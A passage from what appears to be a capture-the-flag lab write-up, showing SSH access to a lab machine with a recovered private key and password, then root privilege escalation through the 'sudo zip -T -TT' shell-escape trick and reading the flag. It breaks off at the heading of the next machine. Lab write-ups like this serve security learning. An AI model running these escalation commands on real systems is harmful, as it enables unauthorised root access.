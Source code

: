 
  * The two files give us some info - todo.txt shows file with text, signed by 'jp'; and the second file is id_rsa, a key. It could be probably useful for ssh, but we do not know the username.

  * However, we can use earlier usernames 'jp' and 'jeanpaul', the id_rsa file and 'I_love_java' to attempt the SSH login.

* Enumerating ssh at 22:

  * Attempting ssh login:

  ```shell
  ssh -i id_rsa jp@10.0.2.9
  #does not work

  ssh -i id_rsa jeanpaul@10.0.2.9
  #works with 'I_love_java'
  #logs in as jeanpaul

  ls

  history #check prev commands for clues

  sudo -l #shows what we can run without sudo password
  #it shows we can run 'sudo zip'
  #Google shows a lot of privilege escalation methods using sudo zip
  #we can use <https://gtfobins.github.io/> as a resource for binaries, including those related to privilege escalation
  #we can abuse sudo zip for escalating privileges

  TF=$(mktemp -u)

  sudo zip $TF /etc/hosts -T -TT 'sh #'
  #opens a shell as sudo

  id
  #shows that we are root now

  cd /root

  ls

  cat flag.txt
  ```

* Therefore, we have gained root access on Dev and captured the flag.txt as well.

---

## Butler

---

* Recon:
